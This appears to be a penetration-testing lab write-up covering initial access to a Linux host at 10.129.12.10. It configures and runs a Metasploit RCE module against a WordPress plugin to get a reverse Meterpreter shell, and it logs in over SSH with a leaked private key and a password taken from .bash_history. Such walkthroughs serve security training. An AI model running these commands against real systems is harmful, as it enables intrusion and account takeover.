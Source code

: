 # 08 - Linux Initial Access

### Summary of Attack Vectors (Our "Low-Hanging Fruits")
1.  **WordPress RCE:** The `hash-form` plugin (v1.1.0) is vulnerable to a known Remote Code Execution (RCE) exploit available in the Metasploit Framework.
2.  **Exposed SSH Private Key:** An unencrypted `id_rsa` key for the user `john` was downloaded.
3.  **Potential Credentials:** The password `SuperSecurePass123` for the user `john` was found in the `.bash_history` file.

---

## 1. Exploitation via WordPress RCE (Metasploit)

This is a powerful, direct path to a shell. We will use the Metasploit Framework to exploit the vulnerable `hash-form` plugin.

### Step 1: Configure the Exploit Module
After starting Metasploit (`msfconsole -q`), we select and configure the exploit.

*   **Select the exploit:**
    ```
    msf6 > use exploit/multi/http/wp_hash_form_rce
    ```
*   **Configure the options:** The `options` command shows what needs to be set.
    *   **`RHOSTS`**: The remote host (target) IP address.
    *   **`RPORT`**: The remote port where the service is running.
    *   **`LHOST`**: The local host (our attacker machine) IP for the reverse shell to connect back to.
    *   **`SSL`**: Set to `true` since the target is using HTTPS.
    ```
    msf6 > set RHOSTS 10.129.12.10
    msf6 > set RPORT 443
    msf6 > set LHOST <your_tun0_ip>
    msf6 > set SSL true
    ```

### Step 2: Execute the Exploit
With all options set, we run the exploit.
```
msf6 > exploit
```

*   **Execution Flow:**

    1.  Metasploit confirms the target is vulnerable.
    2.  It retrieves a security token (nonce) from the WordPress application.
    3.  It uses the nonce to authenticate and upload a malicious PHP payload (a web shell).
    4.  It triggers the payload, which connects back to our machine.
    5.  A **Meterpreter session** opens, indicating a successful compromise.

### Step 3: Gaining an Interactive Shell
*   From the Meterpreter prompt, we can use the `sysinfo` command to confirm we are on the target.
*   The `shell` command drops us into a standard system shell on the target.
*   **Result:** We have gained initial access as the **`www-data`** user, which is the standard user account for the Apache web server.

---

## 2. Exploitation via SSH (Private Key & Password)

Our reconnaissance also provided two methods to access the `john` user account via SSH.

### a) Using the Exposed SSH Private Key
The `id_rsa` file we downloaded from the FTP server can be used to authenticate as the user `john`.

*   **Command:** The `-i` flag in the `ssh` client specifies an identity file (private key) to use for authentication.
    ```shell
    # Make the key file permissions more secure first
    chmod 600 id_rsa
    
    ssh -i id_rsa john@10.129.12.10
    ```
*   **Result:** **Success.** We are logged in directly as the user `john` without needing a password.

### b) Using the Discovered Password
The password `SuperSecurePass123` found in the `.bash_history` file can also be used.

*   **Command:**
    ```shell
    ssh john@10.129.12.10
    ```
*   When prompted for a password, we enter `SuperSecurePass123`.
*   **Result:** **Success.** We are logged in as the user `john`.

---

## Summary of Initial Access

We have successfully demonstrated **three distinct methods** for gaining initial access to the target system.

1.  **WordPress RCE:** Gained a shell as the low-privilege `www-data` user by exploiting a vulnerable plugin.
2.  **SSH Private Key:** Gained a shell as the user `john` by using an exposed, unencrypted private key.
3.  **SSH Password:** Gained a shell as the user `john` by using credentials found in a world-readable history file.

**Root Cause:** The initial access was made possible by a critical misconfiguration: an **anonymous-access FTP server** that exposed the contents of a user's home directory. This single flaw provided all the information necessary to compromise the system in multiple ways.
